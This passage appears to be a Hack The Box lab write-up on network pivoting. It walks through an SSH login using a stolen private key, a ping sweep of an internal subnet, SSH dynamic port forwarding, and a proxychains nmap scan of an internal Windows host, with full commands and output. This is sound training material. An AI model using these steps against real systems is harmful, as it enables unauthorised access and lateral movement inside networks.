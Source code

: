 Login with `SSH` by stealing the SSH private key in the `webadmin` directory.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ sudo ssh webadmin@10.129.239.115 -i id_rsa

webadmin@inlanefreight:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.014 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=0.578 ms
```

**Answer:** `172.16.5.35`

### Question 4:
![](./attachments/Pasted%20image%2020230223113126.png)
*Hint: Metasploit could really help make this pivot easier to manage.*

To make the pivot work we need to enable `SSH` dynamic port forwarding.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ sudo ssh -D 9050 webadmin@10.129.239.115 -i id_rs
```

Confirm `proxychains.conf`.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ tail -4 /etc/proxychains.conf
# defaults set to "tor"
socks4 127.0.0.1 9050
#socks5 127.0.0.1 1080
```

Nmap target.

```
┌──(kali㉿kali)-[~/HTB/PivotingTunnelingAndPortForwarding]
└─$ proxychains -q nmap -n -Pn -sV -sC 172.16.5.35
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 06:23 EST
Nmap scan report for 172.16.5.35
Host is up (0.039s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.9 (protocol 2.0)
| ssh-hostkey: 
|   256 0e29c7ed0b4c8087a7893fb04559d917 (ECDSA)
|_  256 f3e70b01faac9c5bfa9c0e79106c9d1f (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-02-23T11:24:53+00:00; +4s from scanner time.
| ssl-cert: Subject: commonName=PIVOT-SRV01.INLANEFREIGHT.LOCAL
| Not valid before: 2023-02-22T10:37:42
|_Not valid after:  2023-08-24T10:37:42
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: PIVOT-SRV01
|   DNS_Domain_Name: INLANEFREIGHT.LOCAL
```